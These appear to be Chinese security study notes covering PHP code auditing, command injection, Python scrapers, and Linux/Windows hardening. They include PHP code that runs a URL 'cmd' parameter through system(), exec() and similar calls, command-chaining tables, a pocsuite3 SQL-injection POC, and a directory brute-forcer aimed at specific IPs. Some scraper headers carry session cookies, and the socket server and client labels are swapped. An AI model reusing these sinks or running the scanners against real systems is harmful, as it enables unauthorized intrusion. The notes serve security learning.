      - 1.在session中存储当前用户的凭证或者id，只有`传入凭证`或者id参数值与`session中的一致`才返回结果。
      - 2.一般涉及`身份校验的接口`，不要直接将敏感信息的`明文信息`在`客户端与服务端间传递`，可以将敏感信息在服务端关联到用户标
        识ID，在客户端保存用户标识 ID 并提交到服务端，服务端根据 ID 取出对应信息后进行校验;

  - ##### 接口未授权访问/调用漏洞

    - 在正常的业务中，敏感功能的接口需要对访问者的`身份进行验证`，验证通过后才允许调用接口进行操作。`接口未做身份验证`或`身份校验不严`，可能导致`非授权访问`或`越权调用`，越权又分为`垂直越权`和`水平越权`
    - 修复:
      - 1.采用`Token校验`的方式，在ur|中添加一个Token参数，只有Token验证通过才返回接口数据目`Token使用一次后失效`
      - 2.在接口被调用时，服务器端对`会话状态进行验证`，如果已经登录，便返回接口数据;如未登录，则返回自定义的错误信息,
      - 3.`未授权访问接口`做`Session认证`，并对用户访问的每一个URL做身份鉴别，正确的校验用户id及token等:
      - 4.服务器端需`校验身份唯一性`，访问接口`来源验证`，不同身份只能查看修改删除添加自己的信息

  

  ****

### 代码审计

>  含义

* 根据应用程序源代码，从结构、脆弱性以及缺陷等方面进行审查，最终输出代码审计报告，完善应用程序，提高自身安全水平

>  优点

1. 发现更多**隐蔽的**安全漏洞
2. **企业合规性**要求
3. 提高企业整体**安全水平**
4. 提高企业**安全开发编码规范**

#### 相关配置

php.ini

* php的默认选项配置表，可以更改

configuration

* 配置可被设定的范围

#### 工具

1. Notepad++编辑器
2. Seay源码审计系统
3. UltraEdit
   - 轻量级代码编辑器，支持十六进制查看及编辑，可**直接修改exe等文件**，支持打开大文件，可直接执行代码

  4.ZendStudio

- 内置一个强大的**php代码调试**工具，代码**提示功能强大**，支持6种以上语言。

  5.RIPS(代码审计工具)

* 使用简单，可以**自动生成漏洞利用payload**
* http://rips-scanner.sourceforge.net/

1. Burpsuite
2. 浏览器扩展
3. 编码转换及加解密
   * seay代码审计系统**自带编码**，burp的Decoder功能
4. 正则调试功能
   * seay、灵者正则调试

####  流程

1. 获得源码
2. 安装环境
3. 查看网站结构
   * 了解该程序的大致目录
4. 查找程序入口
   * 了解程序的业务逻辑
5. 寻找配置文件
   * 类似于config.php的文件，保存数据库相关信息,查看**数据库编码方式**(宽字节注入)以及变量**引用方式**(双引号执行)
6. 过滤功能
   * 通过**公共函数**文件和**安全过滤**等文件，了解过滤位置、绕过方式、过滤方式(GPC、正则、替换、addslasher)

####  方法

1. 通读源码
   * 应用文件结构 => 关键文件代码 => 配置文件 => 首页文件 => 入口文件 => 功能审计
2. 定向功能分析法
   * 分析程序有哪些功能，**根据功能**进行漏洞检测与测试
3. 敏感函数参数回溯

####  配置项和危险函数

#####  配置项

* **php.ini**配置项规定了**各种环境的条件**

| 模式           | 设定范围                                          |
| -------------- | ------------------------------------------------- |
| PHP_INI_USER   | 用户脚本(例如ini_set())、注册表(5.3起)、.user.ini |
| PHP_INI_PERDIR | php.ini、.htaccess、httpd.conf                    |
| PHP_INI_SYSTEM | php.ini、httpd.conf                               |
| PHP_INI_ALL    | 可在任何地方设定                                  |

##### 常见配置

> ①register_global

1. 作用

   * 设定全局变量的自动注册，**默认关闭**

2. 版本特性

   * 自5.3.0废弃，5.4.0移除，5.2.0中默认开启

3. 配置影响

   * **变量覆盖漏洞**，既可以成为下文**绕过身份认证**的方法，也可以突破其他已保护的变量**产生新漏洞**，如sql注入

4. 不安全实例

   ```php
   <?php
   	$username=$_GET['username'];
   	$password=$_GET['password'];
   	if(($username==='admin')&&($password==='123456')){
         $authorized=true;//可以通过[URL]?authorized=1,直接传入authorized变量的值进行覆盖从而任意用户登录
       }
   ?>
   ```

> ②safe_mode

* 相似配置还有：safe_mode_exec_dir、disable_classes=、disable_functions=fopen、unlink

1. 作用

   * 禁用了php的一些危险的内置函数，如system、exec等，**默认关闭**

2. 版本特性

   * 自5.3.0废弃，5.4.0移除

3. 配置影响

   * 在找到**可执行命令**时，可以**先检测环境的配置**

4. 不安全实例

   ```php
   <?php
   	$commend=$_GET['commend'];
   	system("{$commend}");
   ?>
   ```

> ③display_error

1. 作用

   * 将显示php产生的错误，**默认开启**

2. 版本特性

   * 在php中默认开启，但是真实的站点发布后一般是关闭的

3. 配置影响

   | 报错设置项            | 含义                                       |
   | --------------------- | ------------------------------------------ |
   | error_reporting=E_ALL | 将错误级别显示为最高                       |
   | error_log= [path]     | 自定义错误日志的位置，必须对web用户可写入  |
   | log_errors=on         | 将错误日志输出到文件，而不是直接输出到前端 |

4. 不安全实例

   ```
   站点关闭后未关闭display_error，呢么就会暴露服务器的目录信息，增加sql注入的风险
   ```

#####  危险函数


****

####  安装漏洞审计

* 一般php程序都有一个初始安装的功能，可能有以下漏洞

  1. 无验证功能，任意重装覆盖

  2. $_GET['step']跳过限制步骤

  3. 变量覆盖导致重装

  4. 判断lock后跳转无exit

  5. 解析install.php.bak漏洞

  6. 其他特定功能绕过漏洞

     

####  审计思路

1. 定向功能分析法，直接从安装问题找漏洞

2. 判断Lock后面有没有exit()，如果没有，看代码重装部分有什么漏洞

   

####  命令注入漏洞

#### 分类

1. 可以直接传入命令执行并返回结果
   * system()、exec()、shell_exec()、passthru()、反引号
2. 可以传入命令执行，但无结果返回
   * popen()、proc_open()
3. 需要开启pcntl扩展
   * pcntl_exec()

#### 函数作用


####  多命令执行语法(1)

```php
<?php
//1. system，自带输出
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'];
    system($cmd);
    echo '<br><br>';
}
//2. exec，无输出，且仅输出最后一行
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'];
    print exec($cmd);
    echo '<br><br>';
}
//3.shell_exec，无回显
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'];
    echo shell_exec($cmd);
    echo '<br><br>';
}
//4. passthru，直接将结果输出
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'];
     passthru($cmd);
     echo '<br><br>';
}
//5. popen，返回一个文件指针
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'].">>1.txt";
     popen($cmd,'r');
     echo '<br><br>';
}
//6. 反引号，原理是调用的shell_exec函数
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'];
    print `$cmd`;
    echo '<br><br>';
}
?>
```

#### 多命令执行语法(2)

> windows

| 命令格式                 | 含义                                           |
| ------------------------ | ---------------------------------------------- |
| command1**&**command2    | 先后执行，无论command1是否成功                 |
| command1**&&**command2   | 先后执行，command1成功，才执行command2         |
| command1**\|\|**command2 | 先后执行，command1失败，才执行command2         |
| command1**\|**command2   | \|是管道符，将command1的执行结果传递给command2 |

> Linux

| 命令格式                 | 含义                                       |
| ------------------------ | ------------------------------------------ |
| command1**;**command2    | 先后执行，无论command1是否成功             |
| command1**&&** command2  | 先后执行，command1成功，才执行command2     |
| command1**&**command2    | 先执行command1并放置后台，在执行command2   |
| command1**\|\|**command2 | 先后执行，command1失败，才执行command2     |
| command1**\|**command2   | 管道符，将command1的执行结果传递给command2 |

#### 审计思路

> 搜索目标函数 => 分析过滤 => 构造恶意字符串 => 执行 => 根据返回值

****

### Python

#### 四种数据存储类型

```py
# 列表
list1 = [i for i in range(1, 10)]  # 列表推导式
print(list1)  # [1, 2, 3, 4, 5, 6, 7, 8, 9]

# 添加元素
list1.append(44)  # [1, 2, 3, 4, 5, 6, 7, 8, 9, 44]
print(list1)

# 删除元素
list1.remove(9)
print(list1)  # [1, 2, 3, 4, 5, 6, 7, 8, 44]
del list1[3]
print(list1)  # [1, 2, 3, 6, 7, 8, 44]

# 列表切片
print(list1[1:5])  # [2, 3, 6, 7],左闭右开

# 列表相加
list2 = [i for i in range(10, 20)]
print(list1 + list2)  # [1, 2, 3, 6, 7, 8, 44, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19]

# 修改列表
list1[1] = 99
print(list1)  # [1, 99, 3, 6, 7, 8, 44]

# 遍历列表
for i in list1:
    print(i)

# 字典推导式
dict1 = {i: i * 100 for i in range(1, 10)}
print(dict1)

# 访问字典
print(dict1[3])  # 300

# 删除
del dict1[4]
print(dict1)

# 添加
dict1[11] = 400
print(dict1)

# 修改
dict1[11] = 500
print(dict1)

# 遍历字典
for key in dict1:
    print(key, dict1[key])

# 元组推导式
tuple1 = tuple(i for i in range(90, 100))
print(tuple1)

# 遍历元组
for i in tuple1:
    print(i)

# 删除元组
# del tuple1

# 集合推导式
set1 = {i for i in range(200, 211)}
print(set1)

# 添加元素
set1.add(222)
print(set1)

# 删除元素
set1.remove(200)
print(set1)


def remove_set():
    set1.remove(201)
    set1.add(202)
    set1.add(211)
    print(set1)


if __name__ == '__main__':
    remove_set()
    set1.add(999)
    print(set1)


# import re

# print(re.search(r'[^a].*', 'aaahello world'))
# print(re.findall(r'[^a].*', 'aaahello world'))
```

****

#### 爬取整本小说

> 步骤

- 获取目标`url`
- 导入可能用到的`包`
- `分析`网页结构
- 添加`请求头`
- 尝试获取`一页数据`,在获取的过程中打印`调试`
- 获取成功后`保存查看`,修改格式
- 然后再`分析其它页`的`url`变化,使用`基本url`和相对变化的部分进行`拼接`
- 使用`for`循环遍历url,并`请求`
- 确认没问题以后,修改代码的逻辑:`单页->多页`然后保存,需要注意循环的`缩进`

```py
import requests
from bs4 import BeautifulSoup as bp

# TODO:方法一
page = int(input("请输入想要爬取的章节数："))
for page in range(1, page + 1):
    # TODO:将章节数与url进行拼接
    url = f'https://www.shicimingju.com/book/shuihuzhuan/{page}.html'
    # TODO:放入请求头
    headers = {
        'authority': 'www.shicimingju.com',
        'pragma': 'no-cache',
        'cache-control': 'no-cache',
        'sec-ch-ua': '";Not A Brand";v="99", "Chromium";v="94"',
        'sec-ch-ua-mobile': '?0',
        'sec-ch-ua-platform': '"Windows"',
        'upgrade-insecure-requests': '1',
        'user-agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36 SE 2.X MetaSr 1.0',
        'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
        'sec-fetch-site': 'same-origin',
        'sec-fetch-mode': 'navigate',
        'sec-fetch-user': '?1',
        'sec-fetch-dest': 'document',
        'referer': 'https://www.shicimingju.com/book/shuihuzhuan.html',
        'accept-language': 'zh-CN,zh;q=0.9',
        'cookie': 'Hm_lvt_649f268280b553df1f778477ee743752=1728461954; HMACCOUNT=34961B75D03086BC; Hm_lpvt_649f268280b553df1f778477ee743752=1728462095',
    }
    # print(url) # TODO:打印看看是否拼接成功
    response = requests.get(url, headers=headers)
    response.encoding = 'utf-8'  # TODO:这里以防乱码，设置编码
    # print(response.text) # TODO:打印看看能否正常获取响应

    soup = bp(response.text, 'html.parser')
    # TODO:获取标题 <h1 class="bt">楔子 张天师祈禳瘟疫 洪太尉误走妖魔</h1>
    title = soup.find('h1').text
    print(title)
    # TODO:获取正文<div class="text p_pad">
    content = soup.find('div', class_='text p_pad').text
    print(content)
    with open(f'水浒传.txt', 'a', encoding='utf-8') as f:
        f.write('\n' + title + '\n' + content + '\n')

# TODO:方法二(需要驱动)
# from selenium import webdriver as wd
# from lxml import etree
#
# page = int(input("请输入想要爬取的章节数："))
# for page in range(1, page + 1):
#     url = f'https://www.shicimingju.com/book/shuihuzhuan/{page}.html'
#
#     # TODO:启动浏览器
#     driver = wd.Edge()
#     driver.get(url)
#
#     # TODO:获取响应
#     data = driver.page_source
#     html = etree.HTML(data)
#
#     # TODO:提取内容
#     content = html.xpath("//div[@class='text p_pad']/text()")
#     for i in content:
#         print(i)
#
#     # TODO:关闭浏览器
#     driver.quit()
```

****

#### 图片爬取案例1(搜狐)

```py
import requests
import re

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'sec-ch-ua': '";Not A Brand";v="99", "Chromium";v="94"',
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-platform': '"Windows"',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36 SE 2.X MetaSr 1.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-User': '?1',
    'Sec-Fetch-Dest': 'document',
    'Referer': 'https://www.sohu.com/',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Cookie': 'IPLOC=CN; SUV=241010141919P4WV; cityIpLocation=111.55.145.64; reqtype=pc; gidinf=x099980109ee199821fbce0140002b75f45afe2835f2; _dfp=s68j8Ud8GOW0/csPXMu+b4+2vkPuvOt/qIYBuWjX2+U=; clt=1728541160; cld=20241010141920; arialoadData=false; beans_new_turn=%7B%22www.sohu.com%22%3A23%7D; t=1728541336391; 15853=2',
}

res = requests.get(
    'https://www.sohu.com/picture/815143309?spm=smpc.home.yule-pics.1.1728541255950wYU2Yfh_1467&_f=index_yulefocus_0_0&scm=thor.543_14-200000.0.10006.',
    headers=headers)
res.encoding = 'utf-8'
# print(res.text)

# https://q8.itc.cn/q_70,c_zoom,h_1200,g_face/images01/20241010/f5424fd159e04cc5931de30656aaf966.png
# https://q6.itc.cn/q_70,c_zoom,h_1200,g_face/images01/20241010/39714dda73a449ebb0030ab5d3f37c98.png
# https://q6.itc.cn/q_70,c_zoom,h_1200,g_face/images01/20241010/5783030352024cc2acb545b48836f1e7.png
# https://q3.itc.cn/q_70,c_zoom,h_1200,g_face/images01/20241010/0314873f5b9e4a1585ce39a05f3a17ea.png
# https://q7.itc.cn/q_70,c_zoom,h_1200,g_face/images01/20241010/30b05926405e4459b08cd4efae804c3a.png

# TODO:使用正则提取所有图片链接,注意观察几张图片的规律
img_url = re.findall(r'//q[0-9].itc.cn/q_70,c_zoom,h_1200,g_face/images01/20241010/.*?.png', res.text)

# TODO:使用集合去重(唯一性)
end_urls = set(img_url)

# TODO:遍历所有图片链接并下载
for count, url in enumerate(end_urls, start=1):
    end_url = 'https:' + url
    print(f"下载图片: {end_url}")

    # TODO:下载
    res = requests.get(end_url, headers=headers)
    # TODO:这儿图片名字提供一个思路,使用bs4的get_text()方法获取所有文本,提取出来是一个列表,而且
    # TODO:是带有 \n\n\n\n 换行符这些的,就是说列表只有一个元素,那么需要指定位置切割字符串,去掉不需要的脏数据
    # TODO:然后在使用for循环遍历列表,把列表元素作为文件名
    with open(f'张纪中-{count}.png', 'wb') as f:
        f.write(res.content)
print("所有图片下载完成！")

```


****

#### 图片爬取案例2(百度)

```py
import requests
import re

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'sec-ch-ua': '";Not A Brand";v="99", "Chromium";v="94"',
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-platform': '"Windows"',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36 SE 2.X MetaSr 1.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-User': '?1',
    'Sec-Fetch-Dest': 'document',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Cookie': 'BIDUPSID=CA74EF0653BF772D70211B74CCF25362; PSTM=1727511518; __bid_n=19232c4678706241644905; ZFY=lzmA6PETQquRaVPRC:BGjIiKoRxkmRKXw1:AWKPGUGm9o:C; BAIDUID=3008522C0F7129BA3E9B40C41D178287:FG=1; BAIDUID_BFESS=3008522C0F7129BA3E9B40C41D178287:FG=1; H_WISE_SIDS=60600_60824; H_PS_PSSID=60600; BDORZ=FFFB88E999055A3F8A630C64834BD6D0; BA_HECTOR=2ga02124252g2g058g8k818022h9d61jgc3nb1v; BDRCVFR[S_ukKV6dOkf]=mk3SLVN4HKm; BDRCVFR[dG2JNJb_ajR]=mk3SLVN4HKm; userFrom=null; BDRCVFR[-pGxjrCMryR]=mk3SLVN4HKm; ab_sr=1.0.1_ZjRkN2ZlMjZkNDM1NDA5NTQzNTAwNzQ4YzZkYjZjOTlkMDFiMGM5YjRjMWE4NzIyZjM0NDgzMTI0YjAzZjhiY2U4NWIwY2E0N2YyMDFhYjU0MTkxNDQ1NTQ2M2U4ZGI1OTE4MDgwZjJlMTA5ZmU3MGNkZGY0Nzc2Yjc0OGQ3Y2NhYmQ3NGMzZDgzMzk0OWQ4NzVkYTBjM2UxYTYzZjQzMWViMWZmYTdjNzc3MTM3ZjRhY2I2NWFmYTU4Zjc3MjgwM2NiYWQ1MmJiZjU3ZDQ1ZmVjZWI1NTcyYmRhOGJlNmM=',
}

word = input('请输入你要下载的图片关键词：')
response = requests.get(
    f'https://image.baidu.com/search/index?tn=baiduimage&ipn=r&ct=201326592&cl=2&lm=&st=-1&fm=index&fr=&hs=0&xthttps=111110&sf=1&fmq=&pv=&ic=0&nc=1&z=&se=&showtab=0&fb=0&width=&height=&face=0&istype=2&ie=utf-8&word={word}',
    headers=headers)
html = response.text
# print(html)
# 找到所有img的url ,"thumbURL": "https://img0.baidu.com/it/u=183576704,正则匹配
img_urls = re.findall('"thumbURL": "(.*?)"', html)
count = 0
for img_url in img_urls:
    print('正在下载:'+img_url)
    count += 1
    with open(f'{word}-{count}.jpg', 'wb') as f:
        f.write(requests.get(img_url, headers=headers).content)
print('下载完成!')
```


****

#### 图片爬取案例3(框架版)

```py
import os
import requests
from selenium import webdriver as wd
import time
from lxml import etree

# 设置浏览器选项
options = wd.EdgeOptions()
options.add_argument('--headless')  # 启用无头模式

# 创建浏览器实例
driver = wd.Edge(options=options)

# 输入要下载的页码
page = int(input("请输入要下载的页码："))

# 设置图片保存路径
save_path = "C:/Users/24937/Desktop/图片"

# 创建保存图片的目录
if not os.path.exists(save_path):
    os.makedirs(save_path)

# 计算该页的起始位置
start = (page - 1) * 25

# 生成页面的 URL 并请求页面内容
base_url = f'https://movie.douban.com/top250?start={start}'
driver.get(base_url)
time.sleep(2)  # 增加等待时间以确保页面加载完成

# 获取页面源码
tree = etree.HTML(driver.page_source)

# 获取电影名和图片URL
names = tree.xpath('//*[@id="content"]/div/div[1]/ol/li/div/div[2]/div[1]/a/span[1]/text()')
images = tree.xpath("//ol[@class='grid_view']/li[*]/div[@class='item']/div[@class='pic']/a/img/@src")

# 下载图片并保存
for index in range(len(names)):
    image_url = images[index]
    image_filename = f"{index + 1}.jpg"  # 根据每页的排名从1到25命名图片
    response = requests.get(image_url)
    with open(os.path.join(save_path, image_filename), "wb") as f:
        f.write(response.content)
        print(f"{image_filename} 下载完成")

# 关闭浏览器实例
driver.quit()
```

- 会`模拟打开浏览器`开始下载,这儿可能因为缓存没有加载出来,但是图片实在下载了


****

#### POC编写

```py
# 导入必要的模块
from pocsuite3.api import Output, POCBase, register_poc, requests


# 创建一个BooleanBindPOC类，继承自POCBase
class BooleanBindPOC(POCBase):
    vulID = 'sqli-bool'  # 漏洞ID，可根据实际需求修改
    version = 'sqli-bool'  # POC版本号，可修改
    author = 'tomato'  # 作者，可修改
    vulDate = '2024-10-11'  # 漏洞发现日期，可修改
    createDate = '2024-10-11'  # POC创建日期，可修改
    updateDate = '2024-10-11'  # POC更新日期，可修改
    name = 'sqli-labs-master-bool'  # POC名称，可修改
    appPowerLink = 'http://8.137.60.154:8082/Less-8/'  # 应用链接，可修改为目标系统的链接
    appName = 'sqli-labs-master'  # 应用名称，可修改
    appVersion = '1.0'  # 应用版本，可修改
    vulType = 'SQL Injection'  # 漏洞类型，可修改为其他漏洞类型
    desc = 'boolean bind injection'  # 漏洞描述，可修改
    samples = ['http://8.137.60.154:8082/Less-8/?id=1']  # 示例目标URL，可修改为实际的测试URL
    install_requires = []  # 依赖模块，如果有其他依赖可修改添加
    pocDesc = '进行Less-8测试'  # POC描述，可修改

    # 验证函数，验证目标是否存在漏洞
    def _verify(self):  # 函数名称可以修改，但需保持与类中的调用一致
        payload = input("请输入攻击载荷:")  # SQL注入payload，可以修改为具体的注入语句
        result = {}  # 结果字典
        target = self.url  # 目标URL，系统自动获取，但可以进一步处理或修改

        # 发送HTTP请求，payload可以通过字符串拼接或其他方式动态生成
        req = requests.get(target + payload)
        res = req.text

        # 这里可以修改判断条件，依据目标系统返回的不同内容判定漏洞是否存在
        word = input("请输入回显关键字:")
        if word not in res:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = target  # 输出的目标URL
            result['VerifyInfo']['payload'] = payload  # 输出的payload

            # 这里可以修改返回的解析函数或处理逻辑
            return self.parse_output(result)

    # 攻击函数，通常攻击就是验证的过程，也可以修改为不同的攻击方式
    def _attack(self):  # 函数名称可以修改
        return self._verify()  # 可以修改为其他攻击函数或逻辑

    # 解析输出的函数，可以根据需求修改输出逻辑和格式
    def parse_output(self, result):  # 函数名称及内部逻辑可以修改
        output = Output(self)

        # 输出结果的逻辑，可以根据需求修改输出内容和格式
        if result:
            output.success(result)
        else:
            output.fail('不存在sql注入!')

        # 返回输出对象，可以修改为其他输出方式
        return output


# 注册POC，系统会根据注册的POC执行相应操作
register_poc(BooleanBindPOC)  # 这里可以修改为其他类名
```

##### 执行效果


****

#### 子域名挖掘

```py
import time
from selenium import webdriver as wd
from selenium.webdriver.chrome.service import Service
from webdriver_manager.chrome import ChromeDriverManager
from bs4 import BeautifulSoup
import re

domain = input("请输入想收集域名：")
num = int(input("请输入想收集的页数："))

# TODO:设置驱动
driver = wd.Chrome(service=Service(ChromeDriverManager().install()))

# TODO:使用集合来存储去重后的子域名
collected_subdomains = set()

for page in range(1, num + 1):  
    print(f"正在爬取第 {page} 页...")

    url = f'https://www.google.com/search?q=site:{domain}&sca_esv=8914734fd05b3950&sxsrf=ADLYWIJJxSEB3PbwCq7XWFtmnght1PbsqA:1728631039643&ei=_9AIZ531JsuXvr0P98mZyQc&start={(page - 1) * 10}&sa=N&sstk=AagrsujJ4Dmib6JBcxZkd_We9NSVXt1JA6JYtCuSocsJcs3LORX5Uq7DjB0CECsePc9k9en5o3v9tvQVVD5BOYzwZjC_TaWYjzRvcXC3U0t9MzPZffrR71TdflMmVKeux9T6qZBqJ8wKVQvA-6JZW62bgUcsiAddpBVwdzFu5JPyDFByvLgcmTimdVGNDXbAg3_9C1TR6ObD47tQQc-cU_2rqygXO7xEbv5rN5gEgcPXRqCANMS1jkPq0HBgAUI&ved=2ahUKEwjd8MK45IWJAxXLi68BHfdkJnk40gEQ8NMDegQIBxAX&biw=1392&bih=774&dpr=2'
    driver.get(url)
    time.sleep(2)

    # TODO:检查是否出现人机验证
    if "人机验证" in driver.page_source or "captcha" in driver.page_source:
        print("检测到人机验证，请完成验证后按回车继续...")
        input()  # TODO:暂停程序，等待验证后继续

    # TODO:检查是否有“找不到和您查询的内容”提示
    if "找不到和您查询的" in driver.page_source:
        print("找不到更多内容，挖掘结束。")
        break  # TODO:结束循环，停止挖掘

    data = driver.page_source
    soup = BeautifulSoup(data, 'html.parser')

    # TODO:提取所有<a href=''>标签
    a_tags = soup.find_all('a', href=True)

    # TODO:使用正则表达式提取以 'https://' 开头，并且包含目标域名的子域名链接
    for a_tag in a_tags:
        href = a_tag['href']
        # TODO:只提取子域名，不包括 Google 的 "/url?q=" 跳转链接
        clean_link = re.search(r'(https?://[a-zA-Z0-9.-]+\.' + re.escape(domain) + r'[^\s]*)', href)
        if clean_link:
            real_link = clean_link.group(1)
            # TODO:提取子域名部分去除路径，只保留协议+子域名
            subdomain = re.match(r'https?://([a-zA-Z0-9.-]+\.' + re.escape(domain) + r')', real_link).group(1)
            # TODO:比对子域名去重
            if subdomain not in collected_subdomains:
                collected_subdomains.add(subdomain)
                print(f"提取到的子域名链接: {real_link.split('/')[2]}")  # TODO:输出去掉路径的域名
                with open('domain.txt', 'a') as f:
                    f.write(real_link.split('/')[2] + '\n')
```

##### 执行效果


****

#### 目录爆破

```py
import requests
import concurrent.futures

# 定义颜色
GREEN = '\033[92m'  # 绿色
RED = '\033[91m'  # 红色
YELLOW = '\033[93m'  # 黄色
RESET = '\033[0m'  # 重置颜色

base_url = 'http://113.45.142.235:8090'

# 允许用户输入想要显示的状态码类型，多个状态码用逗号分隔
status_codes_input = input("请输入你想显示的状态码 (用逗号分隔，例如: 200,404,500): ")
status_codes_to_show = [int(code.strip()) for code in status_codes_input.split(',')]

# 读取字典文件
with open('dir.txt', 'r', encoding='utf-8') as f:
    directories = f.readlines()

# 使用 ThreadPoolExecutor 进行多线程处理
with concurrent.futures.ThreadPoolExecutor(max_workers=50) as executor:
    # 提交任务到线程池
    futures = {executor.submit(requests.get, base_url + directory.strip(), timeout=5): directory for directory in
               directories}

    # 使用 as_completed 逐个处理完成的任务，避免等待所有任务完成
    for future in concurrent.futures.as_completed(futures):
        directory = futures[future]
        url = base_url + directory.strip()

        response = future.result()
        status_code = response.status_code

        # 根据用户输入的状态码筛选显示
        if status_code in status_codes_to_show:
            # 根据状态码显示不同颜色
            if status_code == 200:
                print(f"{GREEN}[{status_code} OK] {url}{RESET}")
            elif status_code == 404:
                print(f"{RED}[{status_code} Not Found] {url}{RESET}")
            else:
                print(f"{YELLOW}[{status_code}] {url}{RESET}")  # 其他状态码
```

##### 执行效果


****

#### socket构建TCP聊天

- 服务端

```py
import socket

s = socket.socket()
host = '127.0.0.1'  # 例如 '192.168.1.5'
port = 8888
s.connect((host, port))
print('连接服务器成功')
print('***提示，如果要退出，请输入esc后回车。\r\n')

while True:
    send_data = input('客户端说：')
    s.send(send_data.encode())
    if send_data == 'esc':
        break
    if send_data != 'esc':
        info = s.recv(1024).decode()
        print('服务器说：' + info)

s.close()

```

- 客户端

```py
import socket

host = ''  # 监听所有网络接口
port = 8888

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((host, port))
s.listen(5)
print('服务器处于监听中...\r\n')
sock, addr = s.accept()
print(f'客户端 {addr} 已连接...\r\n')
print('***提示，如果要退出聊天，请输入esc后回车***\r\n')

while True:
    info = sock.recv(1024).decode()
    if info == 'esc':
        break
    if info:
        print('客户端：' + info)
    send_data = input('服务器：')
    sock.send(send_data.encode())
    if send_data == 'esc':
        break

sock.close()
s.close()
```

##### 执行效果


#### 端口扫描


仅展示部分源码!

##### 执行效果


- 端口扫描出来以后会进行目录扫描
- 然后进行自动化攻击 >_<

****

### 操作系统安全加固

#### Windows

- IP协议安全配置
- 其它安全配置
- 账号管理和认证授权
- 日志配置操作

##### 账户

- 默认账户安全,`禁用Guest`账户


- 按照用户分配对应的`用户组`


- `定期检查现存`的用户,是否有不明的用户


- 配置`登出后`,不显示`用户名称`


- 设置`密码复杂度`,根据需求进行修改


- `账户锁定`策略


****

##### 授权

- 在本地安全设置中,从远端系统强制关机的权限只分配给`administrators`组


- `授权`账户登录,配置 允许本地登录权限给指定的授权用户


****

##### 日志配置

- `审核登录`,对用户的登录进行记录


- `审核对象访问`


- `审核特权使用`


- `审核系统事件`


- `审核账号管理`


- `审核过程追踪`


- `日志文件大小`


****

##### 其它安全配置

- 安装防`病毒`软件
- 设置`屏幕保护密码`和`开启时间`
- 限制`远程登录空闲断开时间`(对于远程登录的用户,设置不活动超过15分钟自动断开连接)
- 操作系统`补丁`管理


****

#### Liunx

- linux服务安全设置
- linux文件权限设置
- 日志文件配置操作
- 账号管理和认证授权

##### 账号和口令

- 使用`userdel [用户名]`删除不必要的用户
- 使用`passwd -l [用户名]`锁定不必要的账号
- 使用`passwd -u [用户名]`解锁必要的账号
- 检查是否存在`空口令`和`root`权限的账号(观察是否有和root用户`相似的`)


- 使用`awk -F: '($2=="")' /etc/shadow`查看空口令的账号

- 使用`awk -F: '($3==0)' /etc/passwd`查看UID为0的用户 


- `加固`空口令账号,使用`passwd [用户名]`为空口令账号设置密码

- 确认`uid`为0的账户只能有`root`

- 限制用户`su`(限制能`su`到`root`的用户)

  ```bash
  # 修改配置文件
  vi /etc/pam.d/su
  
  # 若只允许test组用户su到root,则添加
  auth required pam_wheel.so group=test
  ```

- 禁止`root`用户直接登录	

  ```bash
  # 创建一个普通权限的账号并配置密码,防止无法远程登录
  # 使用命令,修改配置文件,将PermitRootLogin的值改成no
  vi /etc/ssh/sshd_config 
  # 然后重启服务
  service sshd restart
  ```

****

##### 服务

- 关闭不必要的服务,降低风险(`sysremctl disable [服务名]`关闭自启动)

- 对`ssh`服务进行安全加固,防止暴力破解成功

  ```bash
  # 编辑配置文件
  vim /etc/ssh/sshd_config
  
  # 不允许root账户直接登录系统,PermitRootLogin的值为no
  # 修改ssh使用的协议版本,Protocol的版本为2
  # 修改允许密码错误的次数(默认6次)
  # 设置MaxAuthTries的值为3
  # 重启服务
  ```

  

****

##### 日志

- 启用日志功能,并配置日志记录
  - 系统日志(默认) `/var/log/messages`
  - cron日志(默认) `/var/log/cron`
  - 安全日志(默认) `/var/log/secure`
  - 部分系统可能使用`syslog-ng`日志,`/etc/syslog-ng/syslog-ng.conf`

****

#### 中间件

- Apache服务安全加固
- Tomcat服务安全加固
- IIS服务安全加固
- 数据库服务安全加固

##### Apache安全加固

- 为`Apache`服务创建用户及用户组,如果没有设置用户和组,则新建用户,并在Apache配置文件中进行指定

```bash
# 创建Apache用户组
groupadd apache

# 创建Apache用户
useradd apache -g apache

# 将下面两个参数加入httpd.conf
User apache
Group apache
```


- `账户设置`

